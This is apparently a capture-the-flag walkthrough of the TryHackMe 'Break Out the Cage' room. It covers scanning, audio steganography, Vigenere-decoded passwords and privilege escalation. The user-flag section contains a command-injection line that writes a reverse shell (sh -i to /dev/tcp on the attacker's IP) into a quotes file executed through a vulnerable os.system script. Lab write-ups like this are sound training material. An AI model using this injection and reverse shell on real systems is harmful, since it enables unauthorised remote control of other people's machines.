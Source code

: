 ```yaml
---

title: Walkthrough - Break Out the Cage
published: true
---
```


Python, Steg, Rot13, Mail. Help Cage bring back his acting career and investigate the nefarious goings on of his agent!

[https://tryhackme.com/room/breakoutthecage1](https://tryhackme.com/room/breakoutthecage1)

* * *

## Notes

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             396 May 25  2020 dad_tasks
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.127.225
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dd:fd:88:94:f8:c8:d1:1b:51:e3:7d:f8:1d:dd:82:3e (RSA)
|   256 3e:ba:38:63:2b:8d:1c:68:13:d5:05:ba:7a:ae:d9:3b (ECDSA)
|_  256 c0:a6:a3:64:44:1e:cf:47:5f:85:f6:1f:78:4c:59:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Nicholas Cage Stories
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

In the FTP server we find ``dad_tasks`` which contains a base64 encoding. decoded it doesnt mean much to us yet, saving this here for later.

```
Qapw Eekcl - Pvr RMKP...XZW VWUR... TTI XEF... LAA ZRGQRO!!!!
Sfw. Kajnmb xsi owuowge
Faz. Tml fkfr qgseik ag oqeibx
Eljwx. Xil bqi aiklbywqe
Rsfv. Zwel vvm imel sumebt lqwdsfk
Yejr. Tqenl Vsw svnt "urqsjetpwbn einyjamu" wf.

Iz glww A ykftef.... Qjhsvbouuoexcmvwkwwatfllxughhbbcmydizwlkbsidiuscwl
```

- ``gobuster dir -u http://10.10.107.176/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100 --no-error``

```
/images               (Status: 301) [Size: 315] [--> http://10.10.107.176/images/]
/html                 (Status: 301) [Size: 313] [--> http://10.10.107.176/html/]  
/scripts              (Status: 301) [Size: 316] [--> http://10.10.107.176/scripts/]
/contracts            (Status: 301) [Size: 318] [--> http://10.10.107.176/contracts/]
/auditions            (Status: 301) [Size: 318] [--> http://10.10.107.176/auditions/]
```

- ``wget -nd -r -l 2 -A jpg,jpeg,png,gif http://10.10.231.206/images``

Not much in all os these directories i tried stegseek on all the images but cant find a password, and still unable to crack the dad_tasts, but there is a mp3 file to look at in `/auditions/`.

![](/assets/break-out-the-cage01.png)

After messing with audacity settings it reveals a hidden message "namelesstwo". This is the key to the vigenere cipher.

```
Dads Tasks - The RAGE...THE CAGE... THE MAN... THE LEGEND!!!!
One. Revamp the website
Two. Put more quotes in script
Three. Buy bee pesticide
Four. Help him with acting lessons
Five. Teach Dad what "information security" is.

In case I forget.... Mydadisghostrideraintthatcoolnocausehesonfirejokes
```

* * * 

## What is Weston's password?

- weston:Mydadisghostrideraintthatcoolnocausehesonfirejokes

* * * 

## What's the user flag?

```
find / -type f -group 1000 2>/dev/null
/opt/.dads_scripts/spread_the_quotes.py
/opt/.dads_scripts/.files/.quotes
```

```
weston@national-treasure:/$ cat /opt/.dads_scripts/spread_the_quotes.py 
#!/usr/bin/env python

#Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)
import os
import random

lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)
```

```
weston@national-treasure:/tmp$ sudo -l
[sudo] password for weston: 
Matching Defaults entries for weston on national-treasure:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User weston may run the following commands on national-treasure:
    (root) /usr/bin/bees
```

Not able to get much more to work here, looking at ``spread_the_quotes.py`` it is being run by cage, but we dont have permissions to write to it, however we do have permissions to write to ``/opt/.dads_scripts/.files/.quotes``

- ``echo "quote;sh -i >& /dev/tcp/10.2.127.225/6666 0>&1" > /opt/.dads_scripts/.files/.quotes``
- now that we are connected we can find the user flag in the home directory. 

* * * 

## What's the root flag?

- Looking at the backup emails there is a code "haiinspsyanileph" and a hint "face"?
- This is another Vigenere Cipher the key is face
- ``cageisnotalegend``
- we can ``su`` to root. and find the flag inside roots email backups

* * * 

